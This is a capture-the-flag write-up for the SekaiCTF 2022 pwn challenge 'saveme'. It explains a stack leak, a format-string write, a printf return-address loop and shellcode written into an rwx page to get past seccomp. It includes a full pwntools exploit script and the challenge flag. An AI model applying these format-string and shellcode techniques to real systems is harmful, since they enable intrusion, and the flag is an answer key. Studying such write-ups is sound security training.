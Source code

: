 ```yaml
---
title: "[Pwn] saveme [SekaiCTF 2022]"
date: 2022-10-03 23:48:00
---
```


# 0x0 Introduction

I got lost in my memory. Please save me!

Author: Jonathan

nc challs.ctf.sekai.team 4001

files: [saveme.zip](saveme.zip)

# 0x1 Mitigation

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fc000)
```

# 0x2 My approach

First of all lets analysis the program. 

the first thing that caught my eye is that the program uses `seccomp` to add restriction to certain system calls. We can easily check the the seccomp rules by using a tool called `seccomp-tools`.

![2022-10-03_235754.png](/ctf-writeup/2022/sekaictf/pwn/saveme/2022-10-03_235754.png)

```
23:55:55 $ seccomp-tools dump ./saveme 
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x07 0xc000003e  if (A != ARCH_X86_64) goto 0009
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x04 0xffffffff  if (A != 0xffffffff) goto 0009
 0005: 0x15 0x02 0x00 0x00000000  if (A == read) goto 0008
 0006: 0x15 0x01 0x00 0x00000001  if (A == write) goto 0008
 0007: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0009
 0008: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0009: 0x06 0x00 0x00 0x00000000  return KILL
```

The seccomp here check both `ARCH_X86_64` and `A < 0x40000000`, which means we are not able to use x32 ABI or use `retf` to bypass this restriction.

As we can see here, seccomp only allow us to use `read`, `write`, and `exit_group`. There is no way we can get a shell from this. 

But luckily, the program already have the flag store in the memory and allocate a `rwx` memory space. if we are able to get the address of flag and have an arbitray code execution, we can print out the flag using `write`.
```
0040129f      mmap(0x405000, 0x1000, 7, 0x22, 0, 0);
...
0040137f      int64_t rax_2 = malloc(0x50);
00401399      int32_t rax_4 = open("flag.txt", 0);
```

now come to the main vulnerabilities. 

1. the program leak the stack address
2. we have a printf that printf whatever user have input.

these two vulnerabilities give us an arbitrary write on the whole memory space. Since the program also leak the stack address, we can also overwrite rip to control the return pointer.
```
00401424      void var_68;
...
00401476      printf("| Here is your gift: %p         …", &var_68);
...
004014d6      else if (rax_6 == 2)
004014d2      {
004014f4          printf("Please leave note for the next p…");
0040150c          __isoc99_scanf("%80s", &var_68);
0040151d          printf(&var_68);
00401531          putc(0xa, stdout);
00401529      }
```

looks like we got everything we want. just write shellcode to the executable memory space and return to that.

the idea is correct, but the program have a 80 input length limit, which means we are not able to write the whole shellcode in a single printf. To do that, we need some how make a loop.  so that we can use the `printf` vulnerability multiple time and write all the shellcode.

my first approach here is write rip to main function. but it didn't work here. not only because of the stack pointer part, but also the seccomp part. Since the program setup seccomp filter when program execuate main function at first time. Program are not able to use `open` syscall again. The syscall to `open` violate the seccomp filter and kill the program immediately.

So, how can we bypass this. the solution is straight forward - **overwrite the return pointer of printf**. Since we have the stack address, we can overwrite the return pointer of printf and let it return to the vulnerability again. In this way, we could write any number of data into the memory space.

finally, when we finish writing shellcode into the memory, we overwrite the return pointer to shellcode itself and get the flag.

*there is one more thing that need to be considered: since scanf stop scan at `\0xa` (\n). we need to choose an address that could avoid all `\0xa` in the final printf payload.*


# 0x3 Exploit

```python
from pwn import *

exe = ELF("saveme")
exe_rop = ROP(exe)

context.binary = exe

def wait():
    if args.LOCAL and args.R2:
        input("wait")
    else:
        time.sleep(0.2)

def log_print(*msg):
    log.info(" ".join(map(str,msg)))
lp = log_print

def start():
    if args.LOCAL:
        r = process([exe.path])
        if args.R2:
            input("Wait r2 attach")
    else:
        r = remote("challs.ctf.sekai.team", 4001)
    return r

ret_addr = exe_rop.find_gadget(['ret'])[0]

main_addr = 0x004013f4
sc_start_addr = 0x405030 # use this to avoid 0xa

do_read_shellcode = ''.join([
    shellcraft.mov("rsi",0x405000),
    shellcraft.read(0, 'rsi', 0x200),
])

do_read_shellcode = '\n'.join([
    "mov rsi,0x405030",
    "xor rax,rax",
    "xor rdi,rdi",
    "mov rdx,0x200",
    "syscall"
])

sc0 = asm(do_read_shellcode)
lp("first shellcode",hex(len(sc0)),do_read_shellcode)

io = start()
io.recvuntil(b"gift: ")
stack_leak = int(io.recvuntil(b' ',drop=True),16)
lp('stack leak',hex(stack_leak))

print_flag_shellcode = "\n".join([
    "mov rdi,0x10",
    f"mov rax,{hex(exe.plt['malloc'])}",
    f"call rax",
    "mov rsi,rax",
    "mov rdi,0x1410",
    "sub rsi,rdi",
    "xor rdi,rdi",
    "mov rdi,1",
    "mov rdx,0x50",
    "mov rax,1",
    "syscall",
])

lp("print flag shellcode\n",print_flag_shellcode)
sc1 = asm(print_flag_shellcode)


io.sendlineafter(b"Your option: ",b'2')
    
payload = fmtstr.fmtstr_payload(8,{
        stack_leak-0x18:0x004014e8,
},write_size='short')
lp(len(payload),payload)
io.sendlineafter(b'next person: ',payload)

lp("iteration",len(sc0)//2)
for i in range(len(sc0)//2):
    print(i)
    payload = fmtstr.fmtstr_payload(8,{
        sc_start_addr+i*2:sc0[i*2:i*2+2],
        stack_leak-0x18:0x004014e8,
    },write_size='short')

    payload = payload + b'\x00'*(80-len(payload)-1)
    io.sendlineafter(b'next person: ',payload)
    lp("payload",len(payload),payload)

payload = fmtstr.fmtstr_payload(8,{
    stack_leak-0x18:sc_start_addr,
},write_size='short')
lp(f"ret2shellcode payload {len(payload)} {payload}")
io.sendlineafter(b'next person: ',payload)
wait()
io.send(sc0+sc1)
io.interactive()

```

# 0x4 Flag

SEKAI{Y0u_g0T_m3_n@w_93e127fc6e3ab73712408a5090fc9a12}